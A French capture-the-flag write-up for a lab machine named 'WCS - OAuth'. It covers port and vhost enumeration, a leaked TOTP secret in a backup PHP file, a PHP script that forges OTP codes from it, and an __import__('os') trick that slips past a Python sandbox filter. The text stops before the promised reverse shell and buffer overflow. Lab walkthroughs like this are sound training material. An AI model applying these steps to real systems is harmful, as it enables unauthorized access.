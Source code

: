 # WCS - OAuth

Résumé :
  - Analyse de port TCP.
  - Énumération des dossiers et également des VHOSTS et il s'avère que un VHOST `dev`.
  - Exploitation du système `GoogleAuthenticator` et après l'accès avoir un accès sur la platforme `Python`.
  - Fichier atypique qui supporte `SUID` et faire une attaque par buffer overflow avec la technique de la retour à la libc.
  

Commençons par faire un scan de port :

    root@wildcodeschool# nmap -p22,80 -sC -sV 172.30.20.253 --min-rate 10000
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-08 12:29 CET
    Nmap scan report for 172.30.20.253
    Host is up (0.025s latency).

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 2d:60:2a:2a:98:a5:ac:68:3d:a3:64:79:08:6d:81:52 (RSA)
    |   256 3a:e5:20:ac:b7:e4:2e:fc:0a:91:4d:d9:f0:5e:2f:3e (ECDSA)
    |_  256 d4:47:2c:de:36:6a:3f:f6:05:a9:00:9a:26:3e:fa:30 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
    
Il s'avère que le port `22` et `80` est ouvert, donc nous pouvons supposer que le serveur tourne sur `Ubuntu 18.04` en regardant le release des versions.

# HTTP

Lorsque je tape l'adresse IP sur le navigateur et il me redirige automatiquement vers le `VHOST => oauth.wcs`, donc je vais mettre ça dans mon fichier `/etc/hosts`.

    127.0.0.1       localhost
    127.0.1.1       wildcodeschool

    172.30.20.253   oauth.wcs

    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters

Lorsque je tape `oauth.wcs` sur mon navigateur, il me redirige automatiquement vers la page par défaut de `Ubuntu`.

![test](https://raw.githubusercontent.com/0ldProgrammer/0ldProgrammer.github.io/master/Screenshot_2021-02-08_12-36-19.png)

J'ai effectué plusieurs recherches vis à vis des dossiers ou des fichiers, mais `gobuster` n'a strictement rien trouvé. Je vais chercher des `VHOSTS` avec l'outil `wfuzz` et de voir si nous pouvons accéder différement à la machine.

(VHOST est simplement un système qui permet d'avoir plusieurs site sur une même adresse IP)

     root@wildcodeschool# wfuzz -w /usr/share/dnsrecon/subdomains-top1mil-5000.txt -u http://172.30.20.253/ -H "Host: FUZZ.oauth.wcs" --hl 376
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://172.30.20.253/
    Total requests: 5000

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                    
    =====================================================================

    000000019:   200        32 L     78 W       1161 Ch     "dev"
    
D'après les scans, l'outil à trouvé le VHOST `dev`, donc je vais en profiter pour mettre ça dans mon fichier `/etc/hosts`.

    root@wildcodeshool: cat /etc/hosts
    127.0.0.1       localhost
    127.0.1.1       oldprogrammer

    172.30.20.253   oauth.wcs dev.oauth.wcs

    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    
# dev.oauth.wcs

Une autre page assez intéréssante, j'ai essayé de mettre un code `OTP` mais sans succès, j'ai même esssayé de brute-force de 0 à 1000000, cela n'a pas abouti.

![test](https://raw.githubusercontent.com/0ldProgrammer/0ldProgrammer.github.io/master/Screenshot_2021-02-08_12-45-07.png)

Cherchons des dossiers et ou des fichiers avec `gobuster`.

    root@wildcodeschool# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://dev.oauth.wcs/
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://dev.oauth.wcs/
    [+] Threads:        10
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2021/02/08 12:47:21 Starting gobuster
    ===============================================================
    /includes (Status: 301)

Il y a un dossier `/includes` assez intéréssant, lorsque je rentre dedans il y a trois dossiers (css, js, php). Lorsque je rentre dans le dossier `php`, il y a un fichier `access.php.bak` qui pouvait être télécharger par n'importe qui, donc je vais le télécharger et le mettre dans ma machine physique.

![test](https://raw.githubusercontent.com/0ldProgrammer/HTB-SCRIPT/master/Screenshot_2021-02-08_12-50-02.png)

    root@wildcodeschool# wget http://dev.oauth.wcs/includes/php/access.php.bak
    --2021-02-08 12:51:32--  http://dev.oauth.wcs/includes/php/access.php.bak
    Resolving dev.oauth.wcs (dev.oauth.wcs)... 172.30.20.253
    Connecting to dev.oauth.wcs (dev.oauth.wcs)|172.30.20.253|:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 320 [application/x-trash]
    Saving to: ‘access.php.bak’

    access.php.bak                         100%[============================================================================>]     320  --.-KB/s    in 0s      

    2021-02-08 12:51:32 (25.1 MB/s) - ‘access.php.bak’ saved [320/320]
    
Affichons le fichier pour essayer de comprendre le code :

```php
<?php
        require_once 'GoogleAuthenticator.php';
        $ga = new PHPGangsta_GoogleAuthenticator();
        $secret = "P4UJGRUHNI6KNI3O";

        if ($_POST['action'] == 'check_code') {
                $code = $_POST['code'];
                $result = $ga->verifyCode($secret, $code, 1);

                if ($result) {
                        include('coder.php');
                } else {
                        echo "wrong";
                }
        }
?>
```

Les points les plus intéréssants dans le code PHP :

- `require_once 'GoogleAuthenticator.php';` importe le module `GoogleAuthenticator.php` mais n'est pas présent dans mon dossier actuel donc l'exécution ne fonctionnera pas (possible de l'installer depuis [ICI](https://raw.githubusercontent.com/PHPGangsta/GoogleAuthenticator/master/PHPGangsta/GoogleAuthenticator.php).
- `$secret = "P4UJGRUHNI6KNI3O";` est un mot de passe pour la génération d'un code `OTP`, cela nous sera très utile de créer notre propre code et l'envoyer au serveur.
- `$result = $ga->verifyCode($secret, $code, 1);` l'application teste si le code est correcte, si le code est correcte, il redirige vers `coder.php` sinon il affiche une erreur (wrong).

Lorsque nous regardons la documentation de `PHPGangsta`, nous pouvons créer recevoir notre propre code `OTP` à l'aide de la fonction `getCode();` donc créeons notre propre petit script pour récupérer le code.

```php
<?php
  require_once 'GoogleAuthenticator.php';
  $ga = new PHPGangsta_GoogleAuthenticator();
  $secret = "P4UJGRUHNI6KNI3O";
  
  echo $ga->getCode($secret);
  
?>
```

(Un petit point important, l'heure du serveur est décalé de 1 heure, donc si l'heure de votre machine n'est pas adaptée avec lui de la machine cible, le code ne fonctionnera essayer de adapté l'heure)

Et lorsque nous exécutons le code `PHP`, il m'affiche un code que je mettrai dans la platforme et lorsque nous rentrons le code il nous redirige vers une platforme Python.

![test](https://raw.githubusercontent.com/0ldProgrammer/pic/main/Screenshot_2021-02-08_12-07-15.png)

# Reverse Shell TCP

J'ai essayé de faire un `reverse shell` avec le module `os` mais lorsque je tente d'importer le module `os` il me renvoie `Please, don't use malicious code.`. Donc, j'ai réussi à contourner cela en fesant simplement `__import__('os')` et ensuite en appelant le nom de la fonction `system();` donc `__import__('os').system('whoami')`.

![test](https://raw.githubusercontent.com/0ldProgrammer/pic/main/Screenshot_2021-02-08_12-07-15.png)
